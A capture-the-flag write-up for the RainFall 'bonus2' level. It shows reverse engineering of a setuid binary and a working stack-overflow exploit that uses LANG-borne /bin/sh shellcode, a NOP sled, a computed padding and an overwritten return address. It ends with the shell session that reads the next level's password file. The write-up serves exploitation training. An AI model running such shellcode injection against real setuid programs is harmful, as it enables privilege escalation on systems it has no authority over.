


# BONUS2

## 1. Inspect The Executable

```
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with bonus3 privileges.

```bash
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 a
bonus2@RainFall:~$ ./bonus2 a a
Hello a
bonus2@RainFall:~$ ./bonus2 abc def
Hello abc
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa test
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa test
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatest
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa test
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatest
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa test
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatest
```

The program expects two arguments. It prints `"Hello "` followed by the first argument.
When the first argument exceeds `40` characters, it is truncated at the `40th byte`, and the second argument is appended immediately after.

```bash
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbb
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbb
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

We can observe that when the second argument reaches `26 characters`, a segfault occurs after printing the message.

## 2. Analyze The Executable

```bash
(gdb) i functions 
All defined functions:

Non-debugging symbols:
[...]
0x08048484  greetuser
0x08048529  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 2 interesting functions: `main` and `greetuser`.

### Program Behavior

#### main function

The `main` function expects exactly **2 arguments**. If this condition is not met, the program immediately returns `1`.

Then, the 2 command-line arguments are copied into local buffers:
- **`argv[1]`** is **copied** into **`local_60`** using `strncpy` with a maximum size of **`0x28` bytes** (40 in decimal).
- **`argv[2]`** is **copied** into **`acStack_38`** using `strncpy` with a maximum size of **`0x20` bytes** (32 in decimal).

Then **retrieves** (with `getenv()`) and **checks** the **`LANG` environment variable**. If it exists, it compares its first two bytes:
- First to **`0x804873d` address**, if it matches, the **global variable `language`** is set to `1`.
- Then to **`0x8048740` address**, if it matches, the **global variable `language`** is set to `2`.

---

Using `gdb`, we can inspect the values stored at these addresses:

```bash
(gdb) p (char *) 0x804873d
$1 = 0x804873d "fi"
(gdb) p (char *) 0x8048740
$2 = 0x8048740 "nl"
```
- The address `0x804873d` contains the string : **`"fi"`**.
- The address `0x8048740` contains the string : **`"nl"`**.

---

Then it is manually copying data from `local_60` to another stack location (`0xffffff50`).

Finally, the function calls `greetuser()` and returns its result.

#### greetuser function

The `greetuser` function **builds a greeting message** based on the value of the global variable **`language`**.

It defines 2 local variables `local_4c` and `local_44`. Depending on the selected language:
- If `language` is set to `1`, it prepares a **Finnish greeting**.
- If `language` is set to `2`, it prepares a **Dutch greeting**.
- If `language` is set to `0`, it defaults to an **English greeting**.

Finally, the constructed string is printed using `puts`, and the function returns.

## 3. Exploit Development

In this level, we need to use a **shellcode**.

However, instead of injecting the shellcode through the program arguments, we will **place it inside** the environment variable **`LANG`**, preceded by a **`NOP` sled**.

The idea is to **redirect the execution flow** to this **shellcode** by overflowing the `greetuser` function’s stack frame. More precisely, we want to **overwrite the `saved EIP`** with an **address inside the `LANG`** environment variable. This overwrite happens through the vulnerable `strcat()` call.

Here is the stack layout:



The **distance** between the start of the buffer used by **`strcat()`** and the **`saved EIP`** is **`76 bytes`**, or **`80 bytes`** if we include the **`4 bytes`** needed to **overwrite `saved EIP`**.
However, with **direct user input**, we can only reach **`72 bytes`**, which is not sufficient to fully overwrite the `saved EIP`.

This is where the `LANG` environment variable comes to play.

The greeting word by `greetuser` depends on the selected language:
- With the **default language**, `"Hello "` **adds `6 bytes`**.
- With **`LANG=fi`**, `"Hyvää päivää "` **adds `18 bytes`** *(because of the multibyte ä characters)*.
- With **`LANG=nl`**, `"Goedemiddag! "` **adds `13 bytes`**.

---

**Note:**
The character `ä` is encoded as **2 bytes** in UTF-8 (`0xC3 0xA4`). This is why the string is **18 bytes** long instead of the expected 13 bytes.

```
[H] [y] [v] [ä] [ä] [ ] [p] [ä] [i] [v] [ä] [ä] [ ]
 1   1   1   2   2   1    1   2   1   1   2   2   1		= 18 bytes
```

---

By setting `LANG` to `fi` or `nl`, we **increase the total number of bytes** written by `strcat()`. This extra offset allows us to reach and overwrite the `saved EIP`.

### Get Exploit Values

As shellcode, we will use the following x86 Linux `/bin/sh` shellcode:

```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

(This one was taken from [shell-storm](https://shell-storm.org/shellcode/files/shellcode-841.html).)

We **store** it **inside** the **`LANG`** environment variable, **preceded** by a **`NOP` sled**, like this:

```
LANG=$(python -c "print 'fi' +  '\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
```

Environment variables are stored in a **predictable location** on the stack, above the program's stack frame. By placing our shellcode in `LANG`, we avoid size limitations of command-line arguments.

---

Next, we need to **compute the required padding**.
In the case of **`LANG=fi`**, the layout looks like this:

```
	<greeting>			<padding>  		+ 	<padding> + <address>
		18					40					?	  +	 	4			= 80 bytes
└──────────────────┘└────────┬─────────┘└─────────────┬──────────────┘
						first entry				second entry
						only 40 max				 only 32 max
_____________________________________________________________________________________

80 - 18 - 40 - 4 = 18 bytes.
```

Therefore, we need **`18 bytes`** of padding in the second argument to reach and overwrite the `saved EIP`.

---

Then we need the **address of the `LANG`** environment variable.

In the `main` function, we can see that the **return value** of **`getenv()`** is stored at **`%esp + 0x9c`**:


```bash
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
   0x080485ab <+130>:	mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)
```

By inspecting this location in `gdb`:

```bash
(gdb) x $esp+0x9c
0xbffff6ac:	0xbffffec1
```

We obtains the **address `0xbffffec1`**.

**Dumping the memory** at this address confirms the presence of the **`NOP` sled** followed by the **shellcode**:

```bash
(gdb) x/32x 0xbffffec1
0xbffffec1:	0x90906966	0x90909090	0x90909090	0x90909090
0xbffffed1:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffee1:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef1:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff01:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff11:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff21:	0x90909090	0xc9319090	0x6851e1f7	0x68732f2f
0xbfffff31:	0x69622f68	0xb0e3896e	0x0080cd0b	0x454e494c
```

**Explanation:**
- `x/`				: gdb command to examine memory.
- `32`				: number of words to display.
- `x`				: hexadecimal output format.


From this dump, we can **safely jump** anywhere **within the `NOP` sled range**, roughly between **`0xbffffec5`** and **`0xbfffff20`**, and execution will slide into the shellcode.

Let's take **`0xbffffef0`**, In little-endian:
```
\xf0\xfe\xff\xbf
```

### Overflow Visualization



### Create the Payload

```bash
LANG=$(python -c "print 'fi' +  '\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

python -c "print 'a' * 40 + ' ' + 'b' * 18 + '\xf0\xfe\xff\xbf'"
```

**Explanation:**
- `python`			: launches the Python interpreter.
- `-c` 				: executes the command passed as a string.
- `print` 			: outputs data to standard output.

## 4. Capture The Flag

```bash
bonus2@RainFall:~$ LANG=$(python -c "print 'fi' +  '\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
bonus2@RainFall:~$ ./bonus2 $(python -c "print 'a' * 40 + ' ' + 'b' * 18 + '\xf0\xfe\xff\xbf'")
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbb����
$ cat /home/user/bonus3/.pass
XXX
$ exit
```
